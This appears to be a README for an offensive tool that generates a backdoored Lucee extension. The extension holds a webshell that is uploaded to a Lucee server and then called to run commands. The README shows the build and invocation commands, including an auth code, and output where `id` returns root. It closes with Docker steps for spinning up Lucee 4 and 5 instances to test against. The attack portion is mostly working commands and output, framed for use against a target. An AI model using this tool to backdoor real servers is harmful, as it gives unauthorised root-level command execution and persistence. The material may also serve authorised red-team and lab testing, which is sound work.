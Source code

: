 
## 

### Written by Juan Pablo Gomez (https://github.com/JPG0mez) and Will Vandevanter (https://github.com/BuffaloWill)

### Building a Shell

The blog post linked above walks through how to manually create the Lucee extension. You can also use the extension-generator.py script to build a backdoored extension:

```bash
python3 extension-generator.py build

Auth_code already set: lErs2CC2BdpUtHYW0miiSNncE
Generating LEX package...
webshell/package.lex created.
```

At this point upload the Extension into the Lucee installation. 

Then call the webshell with:

```bash
python3 extension-generator.py --url http://localhost:8888 --auth-code lErs2CC2BdpUtHYW0miiSNncE id

uid=0(root) gid=0(root) groups=0(root)
```

### Testing Lucee

The easiest way to test Lucee functionality is with Docker. To spin up a Lucee docker instance that matches your target,

#### Docker - Lucee 5:

Note, lucee 5 does not ship with a password. You will need to start the server with:

```
docker run --name lucee5 -p 8888:8888 --platform linux/amd64 lucee/lucee:5.3.9.141-nginx
```

After the application finishes loading, there should be a Server page at [Server Login](http://127.0.0.1:8888/lucee/admin/server.cfm) that will mention a password needing to be set. 

This can be done from the cli with:

```
docker exec lucee5 sh -c "echo 'mypassword' > /opt/lucee/server/lucee-server/context/password.txt"
```

After this click "Import File" and you should be able to login.

This blopost also has alternate information on setting the password: 

https://markdrew.io/password-for-lucee-docker

### Docker - Lucee 4 (2018):

Start the server:

```
docker run --name lucee4 -dp 8888:8080 --platform linux/amd64 lucee/lucee4:4.5.5.015
```

Browse to localhost:8888/lucee/admin/server.cfm and set the password.